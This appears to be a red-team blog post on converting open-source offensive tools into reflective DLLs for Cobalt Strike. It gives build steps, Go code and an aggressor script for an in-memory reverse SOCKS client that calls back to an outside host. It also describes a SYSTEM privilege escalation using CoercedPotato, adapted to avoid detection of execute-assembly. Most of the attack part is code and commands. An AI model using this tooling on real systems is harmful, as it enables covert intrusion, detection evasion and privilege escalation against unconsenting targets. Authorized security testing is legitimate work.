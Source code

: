 ```yaml
---
title: Create a Reflective DLL for Cobalt Strike
date: 2023-10-11
categories: [ "Malware Development" ]
tags: [ "research", "command and control", "windows", "reflective dll", "tooling" ]     # TAG names should always be lowercase
---
```


## Context

This blog post aims to solve a problem I faced when using open source tooling with Cobalt Strike.

During my security assessments I often rely on tooling developped in Python, C#, Go or C/C++. Opensource tools are very often built to produce a PE file that doesn’t fit well on red team engagement as we prefer to avoid uploading and executing file on disk. For Python tools, we need a SOCKS proxy but C2 SOCKS are quite slow as the SOCKS traffic is over the egress C2 traffic of the beacon.

In this blogpost I’m going to show how I ported 2 tools so that they produce a Reflective DLL (RDLL) which could be used in CobaltStrike and executing everything from memory.

## Golang - revsocks

To overcome the SOCKS latency issue, I’m using a modified version of [revsocks](https://github.com/kost/revsocks). Revsocks is splited in 2 parts: the server and the client. The server listens for incoming connections and starts a SOCKS server when a valid connection is established.

Back to 2019, [@EthicalChaos](https://twitter.com/_EthicalChaos_) made a blogpost about how we can used Golang tooling with Cobalt Strike ([Weaponizing your favorite Go program for Cobalt Strike](https://ethicalchaos.dev/2020/01/26/weaponizing-your-favorite-go-program-for-cobalt-strike/)) and released [goreflect](https://github.com/CCob/goreflect), a template to generate a RDLL from a Go project.

I had some issue using this template from a Linux machine so I will explain what I did to make it work.


Before anything, we will compile a Golang program so the PE will be quite large. So we need to increase the task size limit in the malleable profile in order to transfer the RDLL to the beacon.

```
set tasks_max_size "5048576";
```

Now clone the template Github repository

```
git clone https://github.com/CCob/goreflect
```

Then modify `CMakeLists.txt` to add the following flags

```
project (goreflect)

#Dependency to add simple Go support to CMake
include(${CMAKE_SOURCE_DIR}/cmake/GolangSimple.cmake)

# flags for cross compilation
set(CMAKE_C_COMPILER x86_64-w64-mingw32-gcc)
set(GOOS windows)
set(GARCH amd64)
set (DIST_DIR ${CMAKE_SOURCE_DIR}/dist)
```

I removed the following lines

```
#Your favorite go tool definition
GO_GET(gobuster github.com/OJ/gobuster)
```

I added this at the end of the file to create the final RDLL file

```
add_custom_command(
        TARGET goreflect POST_BUILD
        COMMAND ${CMAKE_COMMAND} -E copy
                ${CMAKE_BINARY_DIR}/libgoreflect.so
                ${DIST_DIR}/revsocks.dll)
```

And I renamed the references of `gobuster` to match `revsocks`.

As revsocks is not developped as a library, we cannot just parse the arguments of the RDLL and pass them to a revsocks API.

```go
//export start
func start(arg string) {
    args, err := gsq.Split(arg)
    args = append([]string{"goreflect"}, args...)
    os.Args = args
    
    // parse arg
    // ...

    // doesn't exist
    revsocks.startclient(args.host, args.port, ....)
```

we need to copy the functions defined in `rclient.go` (from revsocks) to `goreflect.go` and call them in the main of the program

```go

func connectviaproxy(proxyaddr string, connectaddr string) net.Conn {
    // ...
}

func connectForSocks(tlsenable bool, verify bool, address string, proxy string) error {
    // ....
}


//export start
func start(arg string) {

	//parse our monolithinc argument string into individual args
	args, err := gsq.Split(arg)

	//our first argument is usally the program name, to just fake it
	args = append([]string{"goreflect"}, args...)

	if err == nil {
		//replace os.Args ready for calling our go program
		os.Args = args

		connect := flag.String("connect", "", "connect address:port")
		proxy := flag.String("proxy", "", "proxy address:port")
		optproxytimeout := flag.String("proxytimeout", "", "proxy response timeout (ms)")
		proxyauthstring := flag.String("proxyauth", "", "proxy auth Domain/user:Password ")
		optuseragent := flag.String("useragent", "", "User-Agent")
		optpassword := flag.String("pass", "", "Connect password")
		recn := flag.Int("recn", 3, "reconnection limit")
		rect := flag.Int("rect", 30, "reconnection delay")

		flag.Usage = func() {

			fmt.Println("revsocks - reverse socks5 server/client")
			fmt.Println("")
			flag.PrintDefaults()
			fmt.Println("")
			fmt.Println("Usage:")
			fmt.Println("1) Start on the client: revsocks -listen :8080 -socks 127.0.0.1:1080 -pass test")
			fmt.Println("3) Connect to 127.0.0.1:1080 on the client with any socks5 client.")
		}

        // parse os.Args
		flag.Parse()

		//run our go program

		if *connect == "" {
			flag.Usage()
			os.Exit(0)
		}

        // call to connectForSocks or something else...

```

When `goreflect.go` is ready, you can build the project and it should produce `dist/revsocks.dll`.

```
cd cmake
cmake ..
make
```

Now we can create a Cobalt Strike agressor script to execute our RDLL:

```perl
beacon_command_register("Revsocks", "Socks5 with NTLM proxy support",
   "Connect Usage: Revsocks -connect 20.20.20.20:443 -pass Password1\n");


alias Revsocks {
   local('$bid', '$args');
   $bid = $1;
   $args = substr($0, 9);

   if ($args eq "") {
      berror($bid, "Please specify an argument string");
		return;
   }
   blog($bid, "Spawn Revsocks as a Reflective DLL with args\n$args\n");
   bdllspawn($bid, script_resource("dist/revsocks.dll"), $args, "Revsocks", 5000, false);
}
```

Once the CNA is ready, load it in Cobalt Strike and call the Revsocks function in your beacon

![](/assets/posts/2023-09-11-create-reflective-dll-cobalt-strike/rdll-revsocks2.png)

And you should get a callback on your revsocks server

![](/assets/posts/2023-09-11-create-reflective-dll-cobalt-strike/revsocks-server.png)


## CoercedPotato for privilege escalation

During a recent engagement my teammates and I gained RCE on a Windows IIS server (I will make dedicated blogposts on this) and we ended up to get a beacon on the server as a NT Local Service account.

We sucessfuly used [GodPotato](https://github.com/BeichenDream/GodPotato) through `execute-assembly` to get a SYSTEM beacon. However, `execute-assembly` can be easily spotted as it loads CLR.dll in the sacrificial process spawned by Cobalt Strike.

I wanted to have another solution without using `execute-assembly` and so I came up to using Reflective DLL loading.

Two months ago, [CoercedPotato](https://github.com/Prepouce/CoercedPotato) was released with the benefit to be a C++ tool so it can easily be ported to a RDLL.

I cloned the repo and integrate [Stephen Fewer RDLL library](https://github.com/stephenfewer/ReflectiveDLLInjection) to it.

There is not so much to talk about except I had to split the project in 2 parts

- the RPC server / named pipe
- the coercer client

I did not succeed to spawn the RPC server with `CreateThread` via a RDLL so I decided to first load the RDLL to spawn it, then to load it another time to coerce the SYSTEM authentication.

I removed some parts of the code to only keep the MS-RPRN coerce.

You can find the code on my Github [CoercedPotatoRDLL](https://github.com/sokaRepo/CoercedPotatoRDLL).

![](/assets/posts/2023-09-11-create-reflective-dll-cobalt-strike/coercedpotato.png)